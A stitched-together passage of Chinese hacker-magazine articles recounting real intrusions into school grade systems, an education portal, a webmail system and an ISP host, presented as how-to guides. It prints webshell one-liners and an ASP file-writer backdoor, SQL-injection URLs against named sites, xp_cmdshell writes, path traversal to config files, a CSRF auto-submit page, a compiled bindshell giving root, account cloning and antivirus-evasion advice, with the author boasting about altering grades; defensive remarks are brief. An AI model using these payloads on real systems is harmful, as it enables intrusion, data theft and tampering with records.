在前面我们打开它数据库的时候，看到关键的一些东西——“|jpg|jpeg|bmp”，也就是图片类型。我们再次登录这个在线编辑器的后台，点击“样式管理”，经过测试，发现不可以直接修改样式，所以我们要尝试写入木马的话，就必须要新增样式了，点击右上角“新增”按钮，如图7。然后看到图片类型那里，是不是跟我们在数据库里看到的一样呢？

我们可以确认，在这里添加东西的话，就会直接写入数据库，如果追加上一句话木马呢？也就会很自然地把木马写入数据库了，这样就可以直接控制我们的 webshell 了。

```asp
<%execute(request("cmd"))%>
```

打开我们的 lanker 控制端，把网站 asp 格式的数据库地址填写上，然后提交环境变量试试看，如图8。前面是一堆乱码，到最底下却显示出了服务器的相关信息，说明我们的马儿被成功写入了。不过这样看着怪不爽的，那么多乱码，我们就来写入一个海阳前辈2006吧，顺便进入一个目录下，新建立一个 asp 文件，把海阳的代码复制进去，然后提交，显示成功，来看看吧，如图9。

成功了哦，我提交的是免杀的海阳2006，因为第一次提交的是普通的没有经过加密的，后来给杀了。所以，谨记我的格言——要想效果好，免杀别忘了（关于木马免杀的各种方法，详见《X档案》06年第1期的小手册）！

## 五、总结

就整个入侵过程而言，都不存在什么新技术。本文只是给大家提供了一个如何入侵一个表面上没有漏洞的站点的思路，希望能给一些新手朋友在学习入侵技术的道路上带来一些启发。

## 我发现了AnyMacro Mail System的漏洞！

最近不知自己怎么了，开始和 Mail 系统过不去。上期我写了一篇关于 Mail 系统的文章，事后总觉得不爽。今天再送给大家一篇，就算是新年的贺礼吧！

当你使用“AnyMacro Mail”作为关键词，去“百度”或者“Google”搜索一下，就会发现这款国产 Mail 系统在国内企业邮箱的市场占有率是相当高的。

### 一、暴出绝对路径读取任意文件

一次偶然的机会，通过“社会工程学”得到了 XX 网通公司一个管理员的邮箱密码，很轻松地就进到了邮件管理界面（图1）。

# 一个人的战争

……个新邮件是有利用价值的。真难为这位管理员了。不过看到“网络存储”几个字倒是让我想起了什么，前段时间不是有一款网络硬盘系统也出现了很严重的漏洞吗？那么，这个会不会也出现类似的问题呢？点击“网络存储”的链接，然后选中本地的一个文件 bin.php，我选择的是 PHPSPY。点击“上传文件”，等一下就会提示文件上传成功了，如图2。

我的思路就是观察一下这个 bin.php 的地址，看看能不能得到一些有用的信息。右键点击 bin.php，选择“在新窗口中打开”，系统会自动下载文件，我们也可以很清楚地看到这个文件的地址，如图3。

等一下！你仔细观察这个 URL 有没有发现“F_f=/bin.php”，这个参数的赋值有些面熟啊？既然它可以读取 bin.php，那可不可以读取其他文件呢？但我们不知道绝对路径，怎么办呢？测试一下看看！直接在地址栏中把最后的那个参数换成“F_f=/bin.bin”，其实就是一个不存在的文件。直接回车，你发现了什么？是不是暴出了绝对路径？如图4。

看来我们的运气不错啊！web 目录和文件存放的目录我们都得到了。那我们试一下 index.php。继续修改对 F_f 这个参数的赋值，改成“F_f=../../../../../../var/www/html/anywebmail/index.php”，回车后，你就会发现我们的猜测完全是正确的。怎么样，读出来了吧！虽然得到的源码是加密的，不过我们还是成功了！如图5。

我猜想数据库的链接文件总不能加密吧！不然用户怎么修改 Mail 的配置啊！经过我的一番“咔嚓”，终于让我找到这个文件。把参数 F_f 的赋值修改为“F_f=../../../../../../var/www/html/anywebmail/config/dbconfig.php”，回车看看结果吧！提示下载！我们用记事本打开，果然没有加密，如图6。

其实还可以读取一些系统文件的，只是测试我就不演示了，下面看看我是如何得到 webshell 的！

### 二、修改路径写webshell

为了得到这个 webshell，我可是下了不少的功夫！大家仔细看一下图1，看见“创建目录”了吗？我们可以创建一个目录，然后通过下面的“转移到”，就可以将这个文件转移到刚才创建的目录里面。我的想法是利用这个转移文件的功能将 bin.php 转移到 web 所在的目录里。经过 N 次试验始终没有成功，我本以为 web 目录没有写权限，但是经过我的证明，web 目录是可写的。我们在“创建目录”里面填上“../../../../../../var/www/html/anywebmail/bin”，然后点击“创建目录”，去看看创建成功没有。我们成功了，目录是可写的，如图7。

真的有些郁闷了，又抽起了我的最爱（中南海）。不吸烟的人永远不会知道香烟的魅力（X的小编在讨论后一致决定：绝不会为了魅力而去选择慢性自杀的，不是都说吸烟等于慢性自杀吗）！最经典的东西被我发现了。既然转移文件不成功，那么我们为什么不在上传文件的时候就改变文件的上传路径呢？先把 web 文件保存到本地，然后修改 option 中 value 的值为“../../../../../../var/www/html/anywebmail”，再把 action 的地址补全。大家注意一个 Mail 的 F_sid 的值每个都不同，请根据实际情况修改。看一下我修改后的效果，如图8。

点击“上传文件”，去看看成功了没有，如图9。

哈哈！真不容易啊！看来“黑客不能缺乏想象力”是真理啊！好了就写到这儿了，webshell 我们已经成功地得到了！（文章中涉及到的程序 phpspy、bin、htm 已经收录于光盘中）

# 一个人的战争


已经记不清是第几次进入学校教务处了，反正每次都有不同的理由。好笑的是每次管理员只是发现入侵者，简单地做一下防护，而没有注意到其它安全方面的问题，治标不治本，是解决不了问题的。所以就有了我 X 次入侵的过程。最重要的是觉得如果是黑客/安全技术爱好者的话，学校的网站是一定要验下的（小编不解，为什么呀？）。另外，要是学校没有网站呢，我已经拿下了学校的主页和教务处网站，而且这两个网站都是我们学校中的重点网站之一，而且学校教务处网站中有我们全校学生的成绩数据库，平时我们查成绩的时候就要用到这个网站（小编恍然大悟，原来入侵学校的网站还有这好处呀，不会是想偷偷地改自己挂红灯的成绩吧）。

在我印象中比较深刻的有三次进入到教务处网站。第一次是刚到学校读书的时候，老师总是叫我们到教务处找考试的消息，我就注意到教务处网站的重要性了。当时还是 SQL 注入和上传流行的时候，当然我们学校网站也不例外。教务处网站使用的是 Windows 2000 Server 系统，浏览了一下教务处网站感觉做得还不错，扫描了一下开放的端口，又检测了一下 SQL 注入，竟然没有找到任何的漏洞（当时还是静态网站）。我真的有些不相信，也怀疑是不是学校有高人在作怪。拿出啊 D 注入工具开始寻找上传网页，当出现一堆注入语句时，心里一阵狂喜。打开后才知道是 dvbbs6.0 论坛的上传网页。原来管理员把上传页面改了。呵呵，对不起了，找出桂林老兵的上传利用程序上传 ASP 木马，顺利拿到了 webshell。又扫描了下 21 端口，发现网站使用的还是 serv-u 4.0 版本，最后上传 su.exe 溢出拿到了网站管理员权限。网站又开了 3389，也省去了我开终端了，我又克隆了 guest 帐号，读出管理员的密码，清理脚印走人。第一次太顺利的入侵，甚至根本就没有让我感觉到挑战的喜悦。

过了很长一段时间，我改用克隆的帐号进入主机的时候，发现已经无法进入了，我换用管理员帐号也进不去。看来，第一次的入侵总算是被管理员发现了。当时正值学校立名目，要我们交这交那的钱，心里很不爽。因此，我决定第二次入侵教务处。这次学校的网站也改为动态网站了，使用的是 ASP 程序。我想管理员发现入侵者不一定在 web 程序上下功夫。打开留下的 ASP 木马果然还在，当我再次拿出 su.exe 程序溢出时，发现怎么也登录不上主机，扫描了一下端口，发现管理员竟然把 serv-u 卸载了。使用 su 溢出取得权限的方法已经行不通了。我开始在主机上找其它可以利用的漏洞。可悲的是管理员没有留下可以直接取得权限的东西。留下的 ASP 木马可以浏览任意盘，看来也只有走这条路了。思路是写个死循环，放个 VBS 到启动项里去。当主机启动时也就启动了我留下的后门。我把 vbs 放在 C:\Documents and Settings\Administrator\「开始」菜单\程序\启动\shell.vbs 下。利用瑞士军刀 nc 反向连接返回一个 cmdshell，运行死循环的批处理。此时的 cmdshell 是 guest 权限，而 guest 权限下的确是有能力让主机重启的。这时就只有等待了。

当黑客也是要有耐心的。呵呵，果然过了几天，网站打开了，我想管理员应该去重新启动主机了吧，后来也理所当然地再次拿到了主机的绝对权限，也再次克隆了管理员 guest 帐号和管理员的密码。

以上的两次过程其实都是很顺利的，使用的方法也都是以前的 X 上讲过的，因此本文就不作为重点详细描述了。主要来看看我的第三次入侵！快要毕业了，学生一切的行动都要按照教务处的去做。我有网站的绝对权限我怕谁（后来学校把成绩这一块儿也放到了教务处）。我想怎么改成绩就怎么改。

某一天，当我再次得意地使用 guest 帐号和管理员密码进入主机的时候，它却对我说“No”。唉，我快要疯掉了，就要毕业了，在这么紧要的关头，我再次与教务处网站说“ByeBye”，我的那些“红灯”成绩该怎么向家里交待啊！教务处网站有了很大的变化，我们的 ASP 木马终于被管理员发现了，webshell 也没有了，dvbbs 论坛也被删掉了。看来再走上传获得 webshell 这条路是行不通了。网站不是使用的 ASP 程序吗，来看看有没有注入漏洞。拿出 nbsi2 开始检测，原来是 DB_OWNER 权限（图1）。现在教务处网站使用的是 ASP + MSSQL 黄金组合。来试试利用 sqlhello.exe 远程溢出程序，怎么也得不到主机的 cmdshell，看来溢出这条路也行不通。


图1

重新整理一下思路，我决定利用备份差异得到 webshell。首先要知道网站的数据库是不是放在同一个站点上的，使用 nbsi 的列目录功能，幸运的是数据库和 web 走同一个主机上的（图2）。


图2

好的，紧张的时刻到了，差异备份得到 webshell。第一步：http://xxx.xxx.xxx.xxx/News_template.asp?id=395;declare @a sysname,@s varchar(4000) select @a=db_name() ... 通过注入、备份数据库并写入木马，最终得到 webshell（图3、图4、图5）。

上传得到的 ASP 木马后，继续利用 serv-u 相关漏洞提权，添加用户并加入 administrators 组，进一步获取系统权限（见图6、图7、图8）。


小样，看你能飞出我的五指山！扫描后发现管理员仍使用 serv-u 4.0 版本（图6），说明取得权限只是时间问题。

SQL 注入、上传漏洞、serv-u 提升权限等问题说明网站管理中安全意识薄弱。应及时更新程序补丁、限制目录与账户权限、加强 web 程序权限管理，减少 administrator 级别风险。

# 跨站提交表单详解

文/插[BCT]

在以前的杂志中我们曾多次提到使用跨站提交表单的方法。本文详细介绍该方法的原理、适用范围及使用过程，并对相关技术要点进行分析。跨站的本质是程序对用户输入校验不足，导致恶意输入可被其他访问者触发执行，从而实现利用。

文中说明了管理员 session 的作用：管理员登录后在服务端保存 sessionid，客户端 cookie 携带该标识，服务端通过比对确认身份。若攻击者能在管理员已登录状态下诱导其执行提交操作，即可能借用管理员权限完成敏感动作。

作者进一步给出利用思路：伪造后台管理表单，构造与目标功能一致的字段，并通过自动提交触发。可在页面中通过 `onload` 调用 `document.form1.submit()` 自动发送表单。若目标程序仅做来源页判断（如 Referer 与 ServerName 比对），则可通过同域可上传文件或可控页面进行绕过。

```asp
server_v1 = CStr(Request.ServerVariables("HTTP_REFERER"))
server_v2 = CStr(Request.ServerVariables("SERVER_NAME"))
...
if (server_v2) <> server_v1 then
  response.write "error"
  response.end
end if
```

```html
<body onload="javascript:document.form1.submit()">
<iframe src="http://blog.blackwoods.cn/submit.html" width="0" height="0"></iframe>
```

- 1. 如果当前站点允许上传 `gif/jpg` 等文件，可将构造页面以允许扩展名上传到服务器并再访问触发。
- 2. 如果在当前域名下其他站点允许上传或可控，也可将页面上传至这些位置后发起提交。

右栏给出后台文件操作类利用：若后台提供数据库备份、文件重命名等功能，可先上传伪装文件，再通过后台将扩展名改为可执行脚本以获取 webshell。文末还举例说明在存在跨站点漏洞的支付/结算流程中，可能在用户不知情下完成请求提交。结论是：跨站提交表单危害大且并不简单，远不止窃取 cookies。

# 一个人的战争

## 一、引言

## 入侵国标——中国教育门户网站

几个月前曾应同事之邀，义务为一个网站作了一次安全检测。通过网站上的信息，如网站的名字（中国教育 XX 网）和所涉及的全国各地区的很多学校都是此网站的会员，另外结合 LOGO 上的字样（“教育部、中国前、中组部……”）以及地址是在国家信息中心等信息来分析，该网站即使不是中国教育部政府性质项的网站，也是分量不轻的中国教育类门户网站。然而经过检测，其安全性之差，真是让我大跌眼镜！

当时仅仅使用了一个很普通的小漏洞，就轻松入侵了。几个月后的一天心血来潮，突然想起那个网站，再次尝试，居然那个老漏洞还在，真是拿他们没有办法。只好将木马复制到比较显眼的位置，也希望管理员可以早些发现问题，并修补该漏洞。下边就来讲述一下我的入侵经历吧！

备好后，点击提交。返回的提示结果竟然是非法操作，如图4。呵呵，看来的确是下了功夫，把 ASP 等后缀的上传给过滤掉了。又试了其他几个前台上传页面，也都不行。可不能就这样放弃，先去他的后台看看吧！上次入侵只是简单地看了看，没有下载他的数据库、没有他的后台用户，这回要重新想办法了……

## 二、再次入侵

### 1. 简单尝试

轻车熟路地在浏览器地址栏输入当初上传到服务器的 ASP 木马网址，却提示找不到该页。呵呵，真不容易呀，终于让对方发现有人入侵过了！那么只好重新入侵了。


输入以前注册过的用户名和密码，再次来到论坛的发帖页面。居然直接从页面上把上传那一项去掉了，如图1。嗯，这倒也是个临时的解决办法。既然还是不行，去另外一个上传的地方看看吧！在首页输入用户名和密码，自动跳入个人管理页面，如图2。记得这里有一个上传课件的地方，也存在漏洞，总不会把这里的上传页面也删除了吧。


点击发布课程，进入上传课件页面，依次填写各栏，点击浏览，选中加密过的 ASP 木马，如图3。同时打开 WSockExpert 工具准备抓包，当一切准备好后，点击提交。


### 2. 注入的突破

上传既然行不通，我开始尝试常用的 SQL 注入方式，来取得后台密码吧。网站上文章发布类的页面有很多，我随意找了个链接 ID，在后面加个单引号，出现错误页面，如图5。


根据错误提示，可以看出该程序没有过滤单引号字符，存在注入漏洞，而且数据库采用的是 MSSQL。于是我继续利用这个注入点，在 ID 后面加上 and user<1，如图6。返回的错误页面轻松地把此程序的数据库用户名“e*****”送给了我，不过有点可惜的不是 SA 用户（呵，有点贪心^-^）。与此同时我的方法 and db_name()<1，将可以轻松得到所连接的数据库名。


下面继续检查看是否可以跨库，继续在 ID 后面加上 and (select count(*) from master.dbo.sysdatabases where name>1 and dbid=8)<>0，如图7。返回的错误页面又把第八位的数据库名告诉了我，看来跨库也是没有问题的。顺便提一下，通过改变 dbid=X（X=1,2,3…N），我们通常从数字 5 或 0 开始尝试，就可以得到所有的数据库名，因为头几位一般为系统使用。


不过，手动注入太麻烦了，相信许多刚入门的小菜看起来也会头疼的。既然人类的特长就是制造和使用工具，那我们就也来发挥这个特长吧。合理使用优秀的工具可以让你达到事半功倍的效果，目前流行的注入工具很多，我以 NBSI 为例。好了，开工吧。输入注入点，点击检测。很快就可以得到注入后数据库信息，如图8。

从数据库猜解出的信息里（图14），虽然得到了上传的文件名等重要信息，但还是无法查出真实的路径，看来程序员在这方面也是下了一番工夫。于是我利用以往的经验对目录名狂试了 N 分钟后，终于打算放弃，没必要继续在这里浪费时间了。像这么大的网站，应该不是一个程序员做的程序，不如去其他的后台看看再说。虽然没有成功得手，但这里存在的上传漏洞还是给我比较大的希望的。


图8

在另一个 User_1 的数据库表中得到了所有的会员学校用户信息（图15）。


图15

找到后台登录地址，用得到的用户名和密码登录，如图9。结果成功地进入了后台，如图10。


图9


图10

随意找到一个帐号，成功进入后台，先点开论坛管理看了看（图16），南开大学的地址等信息清楚地发布在论坛的左上部分。


图16

当我点住左边的管理模块，发现自我上次入侵后，又有其他人进过站。并且非常 BT 地把每个模块的内容改为“我要**漂亮的女老X！”，真是太过分了，如图11。唉，先当当清洁工吧，把这些污浊的字眼，全部从后台清空。


图11

做完清洁工作，开始做正事。随意找了个可以上传的页面，如图12，继续上传 ASP 木马，测试看是否存在上传漏洞。


图12

提交后出现“发布成功”的页面，如图13，说明此处没有对上传文件作限制，存在上传漏洞。于是打开抓包工具，居然没有找到上传后的路径。不过木马文件毕竟是传上去了，抓包工具没有找到，那就去数据库里找线索吧！


图13


图14

回到正题，继续检查文件上传漏洞。点击“招生快讯”的链接，继续点击上传文件，进入到上传的页面（图17），当看到上传页面上说明的限制格式后，心里一凉。莫非已作了限制？先来试一试吧，上传了一个 ASP 木马。


图17

哈哈，虚惊一场。不仅可以上传，连文件名和文件夹大都返回到页面……通过抓包工具，很顺利地找出上传目录……输入不写的开门密码，看到大家熟悉的后台页面，如图18。


随意新建个文件，然后再删除，如图21。看来目录权限没有限制……于是打开 ServUDaemon.ini 文件，随意找了个帐号连接了一下……如果需要，以后可以直接通过 FTP 上传下载文件了，这可方便多了。


到了这一步，网站的生杀大权又回到了我的手上……安全应该尽量做在前面，把可以避免的问题让它不要成为问题，而不是出现问题后再亡羊补牢！

> （文中涉及到的工具……抓包工具 WSockExpert、nbsi2，已经收录于光盘中）

## 入侵广东交通职业技术学院

今天在网上闲逛，无意中逛到了广东女子职业技术学院的网站，发现主页上有个“校园新闻”版块……http://www.gdfs.edu.cn/news.asp?news_id=287……记得在手动测试前要把浏览器“显示友好 HTTP 错误信息”关闭。


由出错信息我们可以看出该网站使用的是 SQL Server 数据库……如果当前连接具有 SA 权限并且管理员没有把 xp_cmdshell 扩展存储过程删除的话，那我们就有得玩了。

```
http://www.gdfs.edu.cn/new/news.asp?news_id=287 and 1=(select IS_SRVROLEMEMBER('sysadmin'))

http://www.gdfs.edu.cn/new/news.asp?news_id=287 and exists (select * from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell')
```

此时，可能很多人会想到上传 WebShell 来控制对方的服务器，我也是。不过，我们使用另一种方法来上传我们的 WebShell。大家都还记得 echo 这个命令吧？！我们前面的测试已经证实了我们当前的连接具有 SA 权限，并且 xp_cmdshell 扩展存储过程也存在，聪明的朋友可能已经想到了，就是利用 SA 权限调用 xp_cmdshell，然后执行 echo 命令把我们的代码写入到服务器中的一个 ASP 文件中。

```asp
<%
Set xufang=Server.CreateObject("Scripting.FileSystemObject")
Set xufang0219=xufang.CreateTextFile(request("serverpath"),True)
xufang0219.Write request("filedata")
xufang0219.Close
%>
```


图 3

我来解释一下上边的那段代码……`CreateObject("Scripting.FileSystemObject")` 的意思是先创建一个 FSO 对象；`CreateTextFile(request("serverpath"),True)` 的意思是使用 FSO 中的方法返回一个文本流对象；`Write request("filedata")` 是把提交的数据写入文件；最后 `Close` 关闭对象。然后将分行代码合并成单行，并进行 URL 编码处理。

随后得到编码结果：`%3C%25Set%20xufang=Server...%25%3E`。接下来需要确定 Web 的绝对路径，于是借助 NBSI 列目录并锁定到目标目录，再将代码写入对应文件。


图 2

文件路径确定后，在网站域名后添加目标文件名并回车，出现下载对话框，说明猜测正确。随后通过构造 URL 调用 `xp_cmdshell 'echo ... > e:\gdwpt2\wish.asp'` 将代码写入服务器。注意命令中的代码需用双引号包裹，否则无法成功写入。

为了提交 `serverpath` 和 `filedata` 两部分数据，作者又写了一个简单的 HTML 表单页面来提交信息，代码如下：

```html
<html>
<head>
<title>...</title>
</head>
<body>
<form method="post" action="http://www.gdfs.edu.cn/wish.asp">
  <input type="text" name="serverpath">
  <textarea name="filedata" cols="80" rows="10"></textarea>
  <input type="submit" value="提交到服务器">
</form>
</body>
</html>
```

其中 `form` 的 `action` 地址指向刚写入的 `wish.asp`，将代码保存为本地 `.html` 文件后即可提交数据。

# 一个人的战争

然后在“保存到服务器上的路径及文件名：”处写上我们要上传的 ASP 木马要保存到服务器的路径以及文件名信息，记得是绝对路径哦！这里当然是刚才我所说的那个 Web 目录了！得让我们能访问到才行嘛！再在“输入要传的文件的代码：”处填上我们要传的 ASP 木马的代码，好！代码就解释到这儿，我们开始实践！

我在“保存到服务器上的路径及文件名：”部分输入：`e:\gdwpt2\wishyou.asp`；在“输入要传的文件的代码：”处填入我已经使用工具加密过的代码（我比较喜欢的一个 ASP 木马），如图 4，点“西天取经”，等程序传完返回一个空白页面的时候证明传输完成，我们输入木马的地址后进入，哈哈！终于取得了我们梦寐以求的 WebShell 了！


进入后选择服务器的信息如图 6。怎么样？这种传马的方式很特别吧！


- 使用这种方法需要同时具备三个条件：
1. `xp_cmdshell` 扩展存储过程没有被管理员删除。
2. 连接权限是 SA。
3. 网站支持 FSO（FileSystemObject）组件，否则 `echo` 进去的代码无法执行。

最后再来说说防范的问题，我利用 WebShell 的便利条件成功下载了他的 `news.asp` 文件，他的 `news.asp` 文件的关键部分代码是这样写的：

```asp
<% dim news_id
news_id=request("news_id")
set cnn=server.CreateObject("adodb.connection")
set rs=server.CreateObject("adodb.recordset")
sql="select * from news where news_id="&news_id&""
%>
```

看见了吧，程序对用户提交的数据不作任何检查就直接放到数据库中进行检索……

这时进行防范：`news_id=cint(trim(request("news_id")))`，也就是使用 VBScript 的 `cint` 函数将提交过来的数据强制转换为整型数据，这样如果用户提交 `news_id=287 and 1=1` 或者 `news_id=287'` 的话，程序立刻会返回：

> Microsoft VBScript 运行时错误：  
> `800a000d`  
> 类型不匹配：`CInt`

因为“and”、“=”、“'”等是字符型数据，在将它们转换为数字型数据的时候一定会出错，这样就可以防止网站被恶意攻击者非法注入了……同时还得要区分大小写，这样当对方提交这些注入关键字的时候程序立刻将它们拦截下来。

（文章中涉及到的相关代码已经收录于光盘中）


# 巧取花香盈路（Hxcms）的 WebShell

lis0

最近在网上查资料的时候，无意中看上了一个网站，用的是一套不知道什么名字的整站系统。当我习惯性地随手提交“'”的时候，出现了如图 1 所示的提示。


不会吧，难道地球人都开始防注入了？！这个防注入的脚本网上好像很流行哦，应该是每个文件前都加了这样的一句 `<!--#Include File="Check_hx.asp"-->`，Check_hx.asp 的代码如下：

```asp
<%
' ====== 定义部分 ======
Dim Fy_post, Fy_Get, Fy_In, Fy_Xh, Fy_dbstr
Fy_In = "'|and|exec|insert|select|delete|update|count|*|%|chr|mid|master|truncate|char|declare"

' ====== POST 部分 ======
If Request.Form<>"" Then
  For Each Fy_Post In Request.Form
    For Fy_Xh=0 To Ubound(Fy_In)
      If Instr(LCase(Request.Form(Fy_Post)),Fy_In(Fy_Xh))<>0 Then
        Response.Write "<script language=JavaScript>alert('系统提示：请不要在参数中包含非法字符尝试注入！');window.close();</script>"
        Response.End
      End If
    Next
  Next
End If

' ====== GET 部分 ======
If Request.QueryString<>"" Then
  For Each Fy_Get In Request.QueryString
    For Fy_Xh=0 To Ubound(Fy_In)
      If Instr(LCase(Request.QueryString(Fy_Get)),Fy_In(Fy_Xh))<>0 Then
        Response.Write "<script language=JavaScript>alert('系统提示：请不要在参数中包含非法字符尝试注入！');window.close();</script>"
        Response.End
      End If
    Next
  Next
End If
%>
```

比较没水平，难道这就安全了吗？用了防注入脚本就一定安全吗？我就不相信。搞定这个站后，才叫有挑战性！从站点上看到了这样的一个链接“about.asp?hx66=dt”，后来问百度大叔得到了答案，才知道这套整站系统叫花香盈路（Hxcms），随后就下载了 Hxcms 最新的版本进行研究。

首先看这个整站系统吧，数据库 mdb/hx#66.asp，尝试下载，结果什么也没有得到。看来管理员大叔改了默认的数据库。防注入的脚本也看过了，没有什么将过滤字符写入其数据库的功能，当然也不能搞什么跨站了。在看这套整站的时候突然发现了 eWebEditor 文件夹，如图 2。


看来，得到 WebShell 就只是时间问题了。说做就做，访问网站 eWebEditor/Admin_Login.asp，如图 3。


使用默认的用户 admin 以及默认的密码 admin 顺利登录，拷贝了一份样式，修改添加扩展名 asa，如图 4。


我本打算在样式预览中上传 asa 脚本，但是结果却是提示权限不足，如图 5。


想必是 Hxcms 的开发人员做了手脚，以前这样的入侵路数不灵了。难道就不能得到 WebShell 了吗？我又仔细看了看下载的花香盈路（Hxcms）这套整站，突然发现了下面的东西，真是天无绝人之路啊，如图 6。


图 6

于是访问网站 /eWebEditor/mdb/mdb.asp（eWebEditor 默认数据库），估计是 Hxcms 的开发人员已经想到了，为了“安全”而改了吧，但也却为我们提供了机会，如图 7。


图 7

我写上登录 eWebEditor 的后台管理，在 eWebEditor 中 Flash 类型设置下写入小马 `<%eval request("a")%>`，如图 8（大家以后一定要多多使用这匹小马啊，真的很不错），使用 eval 后门执行程序进行连接，就这样，一个 WebShell 轻松地就搞定了，如图 9、图 10。

如果你也想试试的话，可以在百度中搜索下面的关键字：“Powered by: Hxcms Ver”或者“about.asp?hx66=dt”……


图 8


图 9


图 10

小小的失误导致了满盘的失败。防注入脚本也不是万能的啊，安全工作还得从每一处做起啊！

> （文章涉及到工具 eval 已经收录于光盘中）

滑落你眼前的流星是我的泪滴，是我对你渗透的证据。入侵你以后，你是否觉察委屈？是我的实力太强，还是原本就是疏忽。其实你再补不补洞，都不再最要紧，从今以后，不再被你吓倒！——改自姜玉阳《忘不掉的伤》


在上次与互联星空网站的较量中，我通过对方的 TOMCAT 没有做好目录权限而成功获得了 WebShell，不过，没能一鼓作气得到对方的系统权限总让我感觉到不太爽。只弄个 WebShell 就算完事的菜鸟不像好菜鸟，这一回，我一定要让它输个彻彻底底！

我再一次登录互联网星空，来到了教育频道。一方面试图找点高校信息和学习资料，另一方面也顺便检测一下（上次的 WebShell 什么的已经过去的事了，我根本就没有想过去走上回的那条老路，不能创新的菜鸟，也不是一个好菜鸟）。无意间我看到有个上传文件的地方（图 1），这互联网星空，吃饱了没事，干吗开这么多上传的地方呀？JSP 上传我还是头一次，点开上传页面（图 2），从网上找了个 JSP 木马，开传！看着 IE 的进度条一点一点地往前爬，几分钟之后，居然上传成功了！！难道真的这么简单就上传成功了？想想我都不太敢相信哟！星空可真大方，竟然把木马的路径也“明码标出”了。不过，像这种大型的主机，杀毒软件通常都挺厉害的，传上去的这个木马，我也有些担心，不会传上去就“光荣”了吧！

不管怎么着，还是试一下吧，这一访问不要紧，让我大吃一惊，因为……竟然……成功了（图 3）！我们来试下看有没有权限添加页面文件，其实，也就是试试我们有没有写的权限，如图 4，成功地就加了一个文件！


图 1

# 一个人的战争


接下来就好玩了，我开始在“Command Window”功能中执行命令，尽可能多地收集星空主机上的有用信息（图 5），竟然发现我现在登录的 JSP 木马权限为 Root（sagi 注：大家从图 5 中可以看到 EUID=0 这句，EUID 指目前发生作用的用户权限，euid 为 0 即表示当前为 root 权限；另外后边的 HOME=/root 这句，表明当前用户的工作目录为 /root 目录。在 UNIX/Linux 系统下，每个用户都有一个默认的不同工作目录，root 用户的默认工作目录就是 /root。从这两点，基本上可以确定，阿布同学确实得到了对方 UNIX/Linux 系统的 root 权限）！


所以很容易地就搞到了对方的 Shadow 和 Passwd 这两个文件（sagi 注：passwd 文件是 shadow 过渡的密码文件，实际用处不大，而 shadow 文件里则保存了系统中所有用户的加密口令），不过我没研究过 Linux 系统，只知道这两个文件很重要，所以就一直在硬盘里揣着。某天见到一个朋友（听说他对 Linux 比较热）就问了他一下，他告诉我让我去下载一个 Linux 下的 Bind 后门。我用的是 Mixter 的 md5shell.c（MD5 加密的 bindshell），用 JSP 木马将 md5shell.c 上传上去（图 6），我们来编译它，在 JSP 木马的“Command Windows”功能版块中执行：

`gcc -o md5shell /home/jakarta-tomcat-4.1.30/webapps/ROOT/md5shell.c`

（图 7），然后我们检查一下是否编译成功，OK！成功编译！直接在 JSP 木马中执行`/home/jakarta-tomcat-4.1.30/webapps/ROOT/md5shell`（图 8），我在本机中使用 NC 或 Telnet 来连接对方主机的 1025 端口，就可以得到一个权限为 ROOT 的 shell 了（图 9）。


整个过程就结束了，这可是我第一次渗透 Linux 主机哦！没有想到我的处女渗透竟然是互联网，大家要努力哦！后来发现这台主机上的 N 多后台管理页面都没有做限制！上次文章中介绍的气象台漏洞，已经做了修补了，可是没有想到这次更严重……这就是我们的互联星空！（文章中涉及到的工具 JSP 后门 Jfolder.jsp、md5shell.c 已经收录于光盘中）

# 一个人的战争


图 8  
图 9

# 渗透到底，王者规矩竟然是内部闹战

## 爱逸园内的来龙去脉是渗透内部网络

风尘浪子 & sophia

天天在网上挖憾，总看到有网站被黑，我对那些入侵高手的技术佩服得五体投地，敬仰之情如同滔滔江水天上来。这天下午我和 sophia 闲聊，后来聊烦了，就和 sophia 一起入侵了一个网站，一直忙到夜里 3 点才搞定，整个渗透过程经历了很多的波折，希望能给那些在黑色道路上不断摸索前行徘徊者的朋友一点点启发。

http://www.xxx.cn/，其 IP 是 xx.103.160.22，是一大型信息港门户网站。该网特有以下特点：1. 二级域名多，至少 20 个，根据 ping 完后的结果，那些二级域名都没有绑定在一个 IP 上，自然也就不在一台服务器上；2. 支持的脚本语言多，首页上有 jsp、php、asp.net、asp 等；3. 信息量大得惊人，很多东西都是链接到其它网站或二级域名……

个人认为对于这种站关键还是要找到合适的入手点，找出致命的漏洞。做个 domain 旁注一下，发现该服务器只绑定一个域名。就先具体了解一下网站吧……

首先是比较热手的 asp 了，开了主页就找到个 asp 链接，后面还附参数，赶快 “and 1=1” 试一下，不爽！这家伙居然使用了通用防注入程序。再试试 aspx，提交什么都返回整页的错误，没办法。jsp 的页面也没有问题……

```
http://it.xxx.cn/publicpress_content.phpid=36/**/and/**/1=2/**/union/**/select/**/1,1,1,1,1,1,1
```

找到 http://gongqiu.xxx.cn/fabunifo.asp，这感觉有价值，进入后台可以上传图片（限 jpg 格式）。我试着抓包，却发现上传一个正常的图片也不行，看来上传的地方出了毛病，如图 1。


图 1

最后在 `http://www.xxx.cn/life/lifehtm/pro_list.asp` 下面找到个搜索的框框，输入关键字“反探测”，返回：

```
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'
[Microsoft][ODBC SQL Server Driver][SQL Server] 第 1 行附近语法错误。
/life/lifehtm/pro_list.asp, 行 94
```

接着输入“反探测' and 1=1 and '%'='”和“反探测' and 1=1 and '%'=''"，返回的不一样，这证明存在注入漏洞。手工注入累死人，抓包嗅探地址，如：`http://www.xxx.cn/life/lifehtm/pro_list.asp?protype=%C6%E4%CB%FC%C%EF%C6%B7`……

用 NBSI 注入不了，使用啊 D 工具检测发现还是 DB_owner 权限，支持多句执行（图 2），权限虽然不大，但是可以列目录……

# 一个人的战争

如图3。


图2


图3

仔细分析这些内网电脑所开的端口，我发现了点小秘密。大部分机器都开了 FTP 的 21 端口，观察之后发现连接信息是诸如 xxweb、xxdatabase 之类的，另外返回信息里看不到 FTP 是用的什么，但有个 220。这当然是 Serv-U 了啊。还有就是很多机器都开了 5631 的 pcAnywhere 端口，一个内网为了方便，应该装点远程控制软件来管理主机吧！连了好几个 3389 都没成功，这时候我感觉 5631 能够带给我们好运。

这么多机器 FTP 信息是有规律的，pcAnywhere 也应该多少有点联系的，社会工程学？呵呵！大概的思路已经出来了，先拿几台机器的 webshell 提权，或者直接下载对方 pcAnywhere 的配置文件，然后运用社会工程学或者穷探（当然穷探将是最坏的打算了）来拿下目标站点。好，下边开工，先拿到一个 webshell 再说。

